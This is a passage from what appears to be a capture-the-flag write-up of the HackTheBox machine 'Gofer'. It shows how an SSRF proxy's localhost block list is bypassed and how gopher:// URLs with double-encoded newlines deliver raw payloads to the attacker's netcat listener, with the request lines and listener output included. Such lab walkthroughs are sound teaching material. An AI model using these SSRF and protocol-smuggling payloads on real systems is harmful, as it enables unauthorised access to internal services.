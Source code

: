 There’s a bunch of ways around this. `0.0.0.0` works. I already noted that `gofer.htb` works. Interestingly, `2130706433` doesn’t work, I suspect because it returns a 301 redirect to `gofer.htb` which the proxy doesn’t know how to parse.

If I try to read a file, I’ll also run into that blocklist:

![image-20231024170359211](https://0xdf.gitlab.io/img/image-20231024170359211.png)

SMTP is blocked as well. I could do some fuzzing from here, but the thing I need to know is clear from the name of the box. Gopher is not blocked:

![image-20231024171231847](https://0xdf.gitlab.io/img/image-20231024171231847.png)

I’ll look at the blocklist in [Beyond Root](#proxy-bad-words).

### Email Jocelyn

#### Gopher Background

[Gopher](https://en.wikipedia.org/wiki/Gopher_(protocol)) is a protocol designed for interacting with documents over IP networks. It was an alternative to HTTP when the internet first came into being, and practically isn’t used anymore.

What’s cool about the `gopher` while hacking is that it doesn’t use headers or even newlines as part of the protocol. I’ll include a single character after the `/`, and then the rest of the URL is considered the raw payload. For example, if I access the following URL:

```
/index.php?url=gopher://10.10.14.6:80/_this%20is%20a%20test

```

What reached my `nc` is:

```
oxdf@hacky$ nc -lnvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.225 36342
this is a test

```

I can try to add newlines with `%0d%0a`, but it doesn’t work. However, a second URL encode does. So:

```
/index.php?url=gopher://10.10.14.6:80/_this%20is%20a%20test%250d%250asecond%20line

```

Leads to:

```
oxdf@hacky$ nc -lnvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.225 34614
this is a test
second line

```
